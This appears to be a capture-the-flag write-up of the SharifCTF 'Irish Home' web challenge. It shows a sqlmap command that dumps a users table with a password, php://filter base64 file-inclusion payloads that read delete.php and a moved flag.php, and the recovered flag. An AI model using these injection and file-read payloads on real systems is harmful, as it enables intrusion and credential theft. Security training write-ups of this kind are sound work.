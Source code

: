 Irish Home
WEB - 207 points

http://ctf.sharif.edu:8082/


This was a blog with two posts,  i took a quick look at the sauce but there was nothing exciting and I checked for common files like robots.txt, but found nothing. However, there was a login page:
http://ctf.sharif.edu:8082/login.php

Tested with admin: admin and was told "That account does not seem to exist," ok so the admin user does not exist.
I then began playing with sqlmap and after a short while, so I saw that it was vulnerable - sql injection, the final payload to get the user name and password were:


-u http://ctf.sharif.edu:8082/login.php --data="username=admin&password=admin" --level=3 -D irish_home -T users -C username,password --dump

Table: users
[1 entry]
+------------+----------------------------------+
| username   | password                         |
+------------+----------------------------------+
| Cuchulainn | 2a7da9c@088ba43a_9c1b4Xbyd231eb9 |
+------------+----------------------------------+


So I was able to log into the control panel and there were a couple of different functions - delete and edit.
You could also check out the pages that existed:
http://ctf.sharif.edu:8082/pages/show.php?page=notice

The 'notice' page gave me information that flag.php has been deleted:

"Important Notice
Ter de pesky contestants av dat bleedin darn SharifCTF:

Sum bugger deleted me beloved flag.php file.
Oi want it back! not next week, not the-morra — roi nigh!
An' be queck aboyt it, as naw opshuns is aff de table.
Don't tell me lay-ra dat yer weren't warned."


Did some fuzzing on 'page =' with burp but didn't find anything interesting. Another team member - deep noticed that it was possible to load any file with php as extension.
But flag.php was removed: /

After some headache, I realized that with php filters it may be possible to read the code, and it worked \o/
php://filter/convert.base64-encode/resource=file

First I tested with notice.php and it went well, so delete.php was the obvious the interesting file.
http://ctf.sharif.edu:8082/pages/show.php?page=php://filter/convert.base64-encode/resource%3d../delete

The code from delete.php :

<?php
require_once('header.php');

if(isset($_GET['page'])) {
	$fname = $_GET['page'] . ".php";
	$fpath = "pages/$fname";
	if(file_exists($fpath)) {
		rename($fpath, "deleted_3d5d9c1910e7c7/$fname");
	}
}


?>
<div style="text-align: center;">
<h3 style="color: red;">Site is under maintenance 'til de end av dis f$#!*^% SharifCTF.</h3><br/>
<h4><b>Al' destructive acshuns are disabled!</b></h4>
</div>
<?php
require_once('footer.php');
?>


Ok so the file was not deleted, the script just moved it to a different folder: rename($fpath, "deleted_3d5d9c1910e7c7/$fname");

So the next payload to read flag.php:
php://filter/convert.base64-encode/resource%3d../deleted_3d5d9c1910e7c7/flag


<?php

$username = 'Cuchulainn';
$password = ;	// Oi don't save me bleedin password in a shithole loike dis.

$salt = 'd34340968a99292fb5665e';

$tmp = $username . $password . $salt;
$tmp = md5($tmp);

$flag = "SharifCTF{" . $tmp . "}";

echo $flag;
?>

Last step - declare the variable $password with the password('2a7da9c@088ba43a_9c1b4Xbyd231eb9') and then run the code to get the flag.

SharifCTF{65892135758717f9d9dfd7063d2c2281}



